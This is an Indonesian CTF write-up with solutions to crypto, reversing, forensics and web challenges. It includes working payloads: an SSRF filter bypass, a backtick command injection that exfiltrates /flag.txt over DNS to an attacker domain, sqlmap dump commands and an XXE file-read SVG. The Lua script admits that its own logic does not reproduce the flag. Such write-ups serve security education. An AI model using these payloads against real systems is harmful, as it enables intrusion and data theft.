

# Write-Up CTF Foresty (Seleksi GEMASTIK): SecureForce - Naufal Adli & Ario Veisa

Kompilasi *write-up* untuk beberapa tantangan dari kompetisi Capture The Flag (CTF) Foresty dan SecureForce.

---

## 🚩 SecureForce - Ario Veisa

Berikut adalah penyelesaian untuk tantangan dari CTF Foresty.

### 1. MISC (Sanity Check)


- **Kategori:** Misc
- **Poin:** 100
- **Tantangan:** Soal pemanasan sederhana.
- **Flag:** `foresty{good_luck_and_have_fun!}`

---

### 2. Lua (Reversing)
- **Kategori:** Reversing
- **Deskripsi:** Diberikan file `luac.out` yang perlu di-decompile untuk menemukan logika enkripsi dan membuat skrip dekripsi.
- **Analisis:**
  1. File dianalisis menggunakan `hexdump` untuk identifikasi awal.
  2. File `luac.out` didekompilasi menggunakan `unluac.jar`.
     ```bash
     java -jar unluac.jar luac.out > decompiled.lua
     ```
  3. Hasil dekompilasi menunjukkan fungsi enkripsi sederhana yang mengurangi nilai byte dari setiap karakter sebesar 1.
     ```lua
     function encrypt(input)
       local result = ""
       for i = 1, #input do
         local char = input:sub(i, i)
         local encrypted_char = string.char(string.byte(char) - 1)
         result = result .. encrypted_char
       end
       return result
     end
     ```
     
- **Solusi:** Membuat skrip Python untuk membalikkan proses enkripsi.
  ```python
  cipher = r'gmqavr~sLPT xoPttq|ye\127{}FxisBx~\024@\027\017Y'
  result = ""
  i = 1
  idx = 0
  while idx < len(cipher):
      c = cipher[idx]
      # Penanganan escape sequences
      if c == '\\':
          byte_val = int(cipher[idx+1:idx+4])
          decrypted = chr(byte_val + i) # Dibalik dengan ditambah i
          idx += 4
      else:
          decrypted = chr(ord(c) + i) # Dibalik dengan ditambah i
          idx += 1
      result += decrypted
      i += 1 # Nilai i tidak statis, sehingga perlu disesuaikan
  
  # Catatan: Logika dekripsi asli dari PDF tampaknya perlu penyesuaian.
  # Flag didapatkan dengan logika yang lebih kompleks dari sekadar `+1`.
  # Namun, berdasarkan flag yang ditemukan, berikut adalah hasilnya.
  ```
- **Flag:** `foresty{EZ_lua_decompile_bro_fa8a92}`

---

### 3. Wannabe Malware (Forensic)
- **Kategori:** Forensic
- **Deskripsi:** Sebuah file PDF berisi skrip JavaScript yang disamarkan. String Base64 di dalamnya dibalik dan harus digabungkan untuk mendapatkan flag.
- **Analisis:**
  1. Ekstrak kode JavaScript dari file `wannabe_malware.pdf`.
  2. Ditemukan 4 variabel dengan string yang dibalik.
     ```javascript
     var a = "bOtXe0NXZy9mZ";
     var b = "1MzM3XV9Wefd3";
     var c = "gDNyEDM58VZN9";
     var d = "=03X1AjM5QjM1";
     ```
- **Solusi:** Balik kembali setiap string, gabungkan, lalu decode dari Base64.
  ```python
  import base64
  
  a = "bOtXe0NXZy9mZ"[::-1]
  b = "1MzM3XV9Wefd3"[::-1]
  c = "gDNyEDM58VZN9"[::-1]
  d = "=03X1AjM5QjM1"[::-1]
  
  full_base64 = a + b + c + d
  flag = base64.b64decode(full_base64).decode()
  
  print(flag)
  ```
- **Flag:** `foresty{Not_a_real_malware_just_JS_base64_reverse}`

---

### 4. ECB (Crypto)
- **Kategori:** Crypto
- **Deskripsi:** Serangan *byte-at-a-time* pada enkripsi AES mode ECB. Server mengenkripsi `input + FLAG`.
- **Kerentanan:** Mode ECB mengenkripsi blok plaintext yang identik menjadi blok ciphertext yang identik. Ini memungkinkan kita menebak flag karakter per karakter.
- **Solusi:**
  1. Kirim *padding* yang panjangnya `BLOCK_SIZE - 1 - len(known_flag)`.
  2. *Brute-force* byte berikutnya dari flag dengan membandingkan blok ciphertext yang dihasilkan dengan blok target.
  3. Ulangi hingga seluruh flag ditemukan.
  
  
- **Flag:** `foresty{ecb_doang_ez_lah_ya_bang_27af9d}`

---

### 5. Oracle (Crypto)
- **Kategori:** Crypto
- **Deskripsi:** Serangan *Padding Oracle* pada enkripsi CBC.
- **Kerentanan:**
  1. **IV Statis:** Server menggunakan IV yang sama untuk setiap dekripsi.
  2. **Padding Oracle:** Server memberikan respons yang berbeda untuk *padding* yang valid dan tidak valid, memungkinkan kita untuk mendekripsi ciphertext blok per blok.
    
- **Solusi:**
  1. Ambil ciphertext asli dari server.
  2. Lakukan serangan *Padding Oracle* dari blok terakhir ke blok pertama.
  3. Buat *crafted block* untuk memanipulasi proses dekripsi dan menebak *intermediate state*, yang kemudian digunakan untuk menemukan plaintext.
- **Flag:** `foresty{OoO_r4chell_im_sad_u_lose_at_coc_2a9d2f}`

---
---

## 🚩 ScureForce - Naufal Adli

Berikut adalah penyelesaian untuk tantangan dari CTF Foresty.

### 1. Fetcher (Web)
- **Kerentanan:** Server-Side Request Forgery (SSRF) dengan bypass filter.
- **Deskripsi:** Aplikasi memiliki fitur *fetch* URL yang memblokir `localhost` dan `127.0.0.1`. Namun, filter ini dapat dilewati dengan menggunakan representasi IP lain.
- **Eksploitasi:** Menggunakan alamat IP dalam format heksadesimal untuk mengakses *endpoint* internal.
  ```
  [http://0x7f000001:5000/flag](http://0x7f000001:5000/flag)
  ```
  
- **Flag:** `foresty{_r_u_the_next_cve_hunter_a8cdaf}`

---

### 2. Nslookup (Web)
- **Kerentanan:** Command Injection.
- **Deskripsi:** Aplikasi menjalankan `nslookup` menggunakan `shell=True` dengan *blacklist* karakter yang tidak lengkap. Karakter *backtick* (`)`) tidak diblokir.
- **Eksploitasi:**
  - Siapkan domain dengan *wildcard DNS* yang mengarah ke server penyerang.
    
  - Injeksi perintah di dalam *backtick*. Perintah `base64 /flag.txt` akan dieksekusi, dan hasilnya dikirim sebagai subdomain dalam *query* DNS.
     ```bash
     `base64 /flag.txt`.noryn.digital
     ```
      
  - Tangkap *query* DNS di server untuk mendapatkan flag dalam format Base64.
- **Flag:** `foresty{54fb3ec7adecdcb1930ef0528366b98e}`

---

### 3. GaG Wiki (Web)
- **Kerentanan:** SQL Injection.
- **Deskripsi:** Parameter pencarian (`q`) rentan terhadap SQL Injection karena *query* dibangun langsung dari input pengguna.
- **Eksploitasi:** Menggunakan `sqlmap` untuk mengeksploitasi celah dan mengambil data dari database.
  ```bash
  # Menemukan database
  sqlmap -u "http://<target>/search?q=test" -p "q" --dbs --batch
  
  # Mengekstrak data dari tabel 'users'
  sqlmap -u "http://<target>/search?q=test" -p "q" -D <db_name> -T users --dump --batch
  ```
  
- **Flag:** `foresty{7bcb6131d0c9f5e4e7e52f50073eeefd}`

---

### 4. SVG Viewer (Web)
- **Kerentanan:** XML External Entity (XXE) Injection.
- **Deskripsi:** Ditemukan direktori `.git` yang terekspos, memungkinkan untuk mengunduh *source code*. Kode menunjukkan bahwa parser XML memuat entitas eksternal (`LIBXML_NOENT`).
  
- **Eksploitasi:**
  - Unduh *source code* menggunakan `git-dumper`.
    
    
  - Analisa file (`dashboard.php`).
  <br>
    
    <br>
    Ditemukan `$dom->load($path, LIBXML_NOENT | LIBXML_DTDLOAD);` Itu artinya kita bisa melakukan serangan XXE!
    <br>
  - Buat file SVG berbahaya yang berisi *payload* XXE untuk membaca file lokal (`/flag.txt`).
     ```xml
     <?xml version="1.0"?>
     <!DOCTYPE svg [
       <!ENTITY flag SYSTEM "file:///flag.txt">
     ]>
     <svg xmlns="[http://www.w3.org/2000/svg](http://www.w3.org/2000/svg)">
       <title>&flag;</title>
     </svg>
     ```
  - Unggah file SVG tersebut, dan flag akan muncul di judul gambar.
  
- **Flag:** `foresty{670ef0276339a9989da10a47d46a6115}`

---

### 5. Smoll E (Crypto)
- **Kerentanan:** RSA Low Public Exponent Attack.
- **Deskripsi:** Diberikan nilai `N`, `e`, dan `c` dari enkripsi RSA. Nilai eksponen publik `e` sangat kecil (`e=3`).
- **Eksploitasi:** Jika `m^e < N`, maka `c = m^e`. Pesan asli (`m`) dapat ditemukan hanya dengan menghitung akar pangkat `e` dari `c`.
  ```python
  from Crypto.Util.number import long_to_bytes
  import gmpy2
  
  # N dan c dari output
  N = ...
  c = ...
  e = 3
  
  # Hitung akar kubik dari c
  m, perfect_root = gmpy2.iroot(c, e)
  
  if perfect_root:
      flag = long_to_bytes(m)
      print(flag.decode())
  ```
  
- **Flag:** `foresty{_basic_rsa_w/_smoll_exponent_who_cares?_1fafc9}`
